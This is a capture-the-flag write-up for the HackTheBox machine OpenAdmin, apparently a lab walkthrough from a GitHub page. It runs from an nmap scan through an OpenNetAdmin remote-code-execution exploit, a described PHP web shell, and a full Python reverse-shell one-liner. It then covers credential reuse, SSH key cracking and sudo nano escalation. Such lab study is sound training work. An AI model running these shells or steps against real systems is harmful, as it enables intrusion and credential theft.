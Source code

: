 # HackTheBox-OpenAdmin

## NMAP

```bash
nmap -p- -sC -sV --min-rate 5000 IP

PORT      STATE    SERVICE      REASON         VERSION
22/tcp    open     ssh          syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                            
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcVHOWV8MC41kgTdwiBIBmUrM8vGHUM2Q7+a0LCl9jfH3bIpmuWnzwev97wpc8pRHPuKfKm0c3iHGII+cKSsVgzVtJfQdQ0j/GyDcBQ9s1VG
HiYIjbpX30eM2P2N5g2hy9ZWsF36WMoo5Fr+mPNycf6Mf0QOODMVqbmE3VVZE1VlX3pNW4ZkMIpDSUR89JhH+PHz/miZ1OhBdSoNWYJIuWyn8DWLCGBQ7THxxYOfN1bwhfYRCRTv46tiayuF2NNK
WaDqDq/DXZxSYjwpSVelFV+vybL6nU0f28PzpQsmvPab4PtMUb0epaj4ZFcB1VVITVCdBsiu4SpZDdElxkuQJz
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHqbD5jGewKxd8heN452cfS5LS/VdUroTScThdV8IiZdTxgSaXN1Qga4audhlYIGSyDdTEL8x2
tPAFPpvipRrLE=                                                            
|   256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcV0sVI0yWfjKsl7++B9FGfOVeWAIWZ4YGEMROPxxk4
80/tcp    open     http         syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:        
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

```

## PORT 80 (HTTP)

On the web server we only get apache default web page

<img src="https://imgur.com/vwGCeXL.png"/>

I tried to see if it had something in `robots.txt` but that file didn't existed

<img src="https://i.imgur.com/9XYoLpE.png"/>

So I decide to run `gobuster` to fuzz for files and directories

<img src="https://i.imgur.com/g1L1Jh7.png"/>

Going to `music` we can see a html template page , there's login link which takes us to `OpenNetAdmin` page which is an application for managing IP addresses DNS , subnets and etc also it exposes the version of openetadmmin which is 18.1.1
 
<img src="https://imgur.com/fx43d5s.png"/>

On googling for any exploits which are there for version `18.1.1` we can see a github repo having the PoC of remote code execution

https://github.com/amriunix/ona-rce

<img src="https://imgur.com/iuerBVd.png"/>

We can check through poc if the target is vulnerable or not

<img src="https://imgur.com/YFCTOOY.png"/>

But when running the exploit it breaks

<img src="https://imgur.com/AqWfFcX.png"/>

So I went to `exploit-db` and try that exploit 

<img src="https://imgur.com/mGfdedH.png"/>

And this one worked perfectly

<img src="https://imgur.com/yU7UGrH.png"/>

I tried getting a reverse shell again so that I can stabilize it but it wasn't working

<img src="https://imgur.com/6Eu08gw.png"/>

I made a simple php file having a GET parameter named `cmd` which will be executed through `system` function which is used to execute shell commands and outputs the result , then I hosted this file using `python3`  and downloaded it on target machine using `wget`

<img src="https://imgur.com/PU830kN.png"/>

Using python3 reverse shell I was able to get a proper shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.84",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<img src="https://imgur.com/JVRj2jH.png"/>

Here I have just tried to stabilize the shell so we can have the ability to clear terminal screen also use bash history by using up  and arrow down keys

<img src="https://imgur.com/SDsKnDw.png"/>

We can go into `/home` directory to see how many users are there

<img src="https://imgur.com/iFr6hIm.png"/>

There are 2 users but we can't navigate into to folders as `www-data` doesn't have permissions to view them. We can look for any cronjobs running through `cat /etc/crontab`

<img src="https://imgur.com/U2Ndb0w.png"/>

Nothing there, next we can look for open ports 

<img src="https://imgur.com/EzHmwJX.png"/>

Here we can see port 3306 which is for database , we can try to view the database password and see if it works on either one of the users

<img src="https://imgur.com/iYeqsis.png"/>

In `/opt/ona/www/local/config` we can see a database settings file 

<img src="https://i.imgur.com/Ap0ARPD.png"/>

Let's try this password on `jimmy`

<img src="https://imgur.com/Y6Qr8BA.png"/>

Perfect this worked !

<img src="https://imgur.com/MnYRPAY.png"/>

But doing `sudo -l` failed the user was not allowed to use `sudo` I guess , so this user is in `internal` group maybe there's some folder we can look into

<img src="https://i.imgur.com/VQpCFrd.png"/>
So looking into `index.php` we can see it's a login page which requires username and password and there's a condition if we provide the username as `jimmy` or provide the correct password which we could just decrpyt the sha512 hash , on decrypting it is `Revealed`

<img src="https://i.imgur.com/BY6nype.png"/>

<img src="https://imgur.com/6X1fTV2.png/">

We can also see a php file `main.php` which is executing a shell command to read id_rsa key of `joanna` , if we try to run the php file we will get permission denied error as it's going to be executed as `jimmy`

<img src="https://i.imgur.com/64FfQYB.png"/>

<img src="https://imgur.com/W1zSPRJ.png"/>

If we look at the running ports on the machine we can see a port `52846`

<img src="https://i.imgur.com/NEANZr9.png"/>

Using `curl` we can make a request on that port and it seems this is the same page that we saw in `internal` directory so this directory is being hosted on port 52846 this means we can naviagte to `main.php` file

<img src="https://imgur.com/vErwU5H.png"/>

<img src="https://imgur.com/vI3vfw6.png"/>

I saved the request to `main.php` in a text file and transfered that file on my machine

<img src="https://imgur.com/sn5XuNF.png"/>

On using the private key , it asks for a passphrase

<img src="https://imgur.com/ec5kZQH.png"/>

Using `ssh2john` we can get the hash of id_rsa and crack it so we can  get the passphrase

<img src="https://imgur.com/OotJmQc.png"/>

<img src="https://imgur.com/Qmix1qH.png"/>

Now we have escalated to the second user , on running `sudo -l` we can see have permissions to run `nano` on `/opt/priv`

<img src="https://imgur.com/4AsPxoW.png"/>

We can check the how to abuse `nano` from GTFOBINS

https://gtfobins.github.io/gtfobins/nano/

<img src="https://imgur.com/hxghHsw.png"/>

<img src="https://imgur.com/kCYvgWE.png"/>
